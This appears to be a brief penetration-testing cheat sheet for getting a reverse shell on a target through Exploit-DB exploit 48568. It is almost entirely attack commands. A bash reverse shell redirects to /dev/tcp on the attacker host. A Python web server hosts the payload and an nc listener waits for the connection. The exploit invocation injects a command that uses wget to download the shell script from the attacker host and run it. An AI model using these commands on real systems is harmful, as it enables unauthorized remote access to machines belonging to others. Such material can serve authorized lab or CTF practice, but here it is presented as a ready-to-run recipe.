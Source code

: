 ### prepare file shell.sh and insert
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

### start webserver
```
sudo python3 -m http.server 80
```

### start listener
```
nc -lvnp <lport>
```

### exploit
```
python3 48568.py -user <user> -pass <password> -u http://<rhost> -c "wget <lhost>/shell.sh ; bash shell.sh"
```

### References
https://www.exploit-db.com/exploits/48568  

